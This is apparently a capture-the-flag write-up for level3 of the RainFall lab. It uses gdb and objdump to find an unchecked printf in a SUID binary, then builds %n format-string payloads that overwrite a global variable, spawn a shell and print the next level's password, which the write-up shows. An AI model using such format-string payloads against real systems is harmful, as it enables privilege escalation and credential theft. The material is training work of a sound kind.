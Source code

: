 Login as `level3`.
```shell
┌──$ [~/42/2022/rainfall]
└─>  ssh 192.168.1.28 -p 4242 -l level3
level3@192.168.1.28's password: 492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level3/level31
```
A `SUID` executable is lcated in the home directory.
```shell
level3@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level4 users 5366 Mar  6  2016 level3
```
Print all defined functions.
```gdb
(gdb) info functions
[...]
0x080484a4  v
0x0804851a  main
```
`v()` function has a conditional call to `system()` on line `111` with `/bin/sh` as a parameter. Some value stored in `0x804988c` must to be equal to 0x40.
```gdb
(gdb) disassemble v
Dump of assembler code for function v:
   [...]
   0x080484da <+54>:	mov    eax,ds:0x804988c
   0x080484df <+59>:	cmp    eax,0x40
   0x080484e2 <+62>:	jne    0x8048518 <v+116>
   [...]
   0x0804850c <+104>:	mov    DWORD PTR [esp],0x804860d
   0x08048513 <+111>:	call   0x80483c0 <system@plt>
   [...]
End of assembler dump.
(gdb) x 0x804860d
0x804860d:	 "/bin/sh"
```
A bit earlier, `printf()` is called with  without format string. It cause [FSA](https://owasp.org/www-community/attacks/Format_string_attack) aka [UFS](https://en.wikipedia.org/wiki/Uncontrolled_format_string) vulnerability.
```gdb
(gdb) disassemble v
Dump of assembler code for function v:
   0x080484cc <+40>:	lea    eax,[ebp-0x208]
   0x080484d2 <+46>:	mov    DWORD PTR [esp],eax
   0x080484d5 <+49>:	call   0x8048390 <printf@plt>
```
Man page of `printf` has a SECURITY CONSIDERATIONS section which says that _%n can be used to write arbitrary data to selected addresses_.

BSS section contains a variable `m` which is declared but have not been assigned a value.
This variable is used while comparing it to 64 in `if` condition.
```gdb
level3@RainFall:~$ objdump -t ./level3
[...]
0804988c g     O .bss	00000004              m
[...]
```
Using `%x` format tokens allows to print data/addresses from the call stack.
```shell
level3@RainFall:~$ ./level3
%08x %08x %08x %08x
00000200 b7fd1ac0 b7ff37d0 78383025
```
An offset at which the `argv` start should be find.
```shell
level3@RainFall:~$ for i in {0..100}; do echo "Offset: $i"; python -c "print 'AAAA' + '%08x '*$i" | ./level3; read; done
Offset: 0
AAAA

Offset: 1
AAAA00000200

Offset: 2
AAAA00000200 b7fd1ac0

Offset: 3
AAAA00000200 b7fd1ac0 b7ff37d0

Offset: 4
AAAA00000200 b7fd1ac0 b7ff37d0 41414141

Offset: 5
AAAA00000200 b7fd1ac0 b7ff37d0 41414141 78383025
```

```shell
level3@RainFall:~$ (python -c "print 'A'*60 + '\x8c\x98\x04\x08%19\$n'"; cat -) | ./level3
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��
Wait what?!
whoami
level4
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
> 64/4=16
> Offset between 4 and 19 could be used to write 64 bytes.

Exploit and log on to the next level.

```gdb
level3@RainFall:~$ (python -c "print '\x8c\x98\x04\x08'*16 + '%4\$n'"; echo "cat /home/user/level4/.pass") | ./level3
�����������������
Wait what?!
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
level3@RainFall:~$ for i in {4..19}; do echo $i; (python -c "print '\x8c\x98\x04\x08'*16 + '%$i\$n'"; echo "cat /home/user/level4/.pass") | ./level3; done
```
